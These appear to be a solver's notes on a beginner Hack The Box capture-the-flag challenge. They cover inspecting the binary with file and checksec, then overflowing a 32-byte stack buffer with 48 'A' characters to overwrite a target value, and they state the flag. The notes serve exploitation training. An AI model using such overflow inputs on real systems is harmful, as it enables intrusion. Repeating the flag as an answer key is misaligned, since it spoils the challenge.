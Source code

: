 # Getting-Started

## FLAG: HTB{b0f_s33m5_3z_r1ght?}

## Status: Incomplete

+ DOCKER: Yes
+ DOWNLOADABLE: Yes

Description: Get ready for the last guided challenge and your first real exploit. It's time to show your hacking skills.

## NOTES

1. Deploy Docker
   1. > IP: 165.232.108.236:32318
2. Extract files
   1. > unzip pwn_getting_started.zip
      1. FILES(S): libc.so.6, ld-liux-x86-64.so.2, wrapper.py, flag.txt, gs
3. Examine gs file
   1. > file gs
      1. RESPONSE: `gs: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=505eb225ba13a677aa5f00d5e3d840f63237871f, for GNU/Linux 3.2.0, not stripped`
   2. > checksec gs
      1. Arch:     amd64-64-little
      2. RELRO:    Full RELRO
      3. Stack:    No canary found
      4. NX:       NX enabled
      5. PIE:      PIE enabled
      6. RUNPATH:  b'./glibc/'
4. NC
   1. > 165.232.108.236 32318
      1. Fill the 32-byte buffer, overwrite the alignment address and the "target's" 0xdeasdbeef value
         1. Since there is 32 bytes, + another 8 for the dummy alignment, + another 8 to overwrite 0xdeadbeef. That means we need 48 bytes
            1. print("A"*48)
         2. >> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
      2. FLAG: `HTB{b0f_s33m5_3z_r1ght?}`
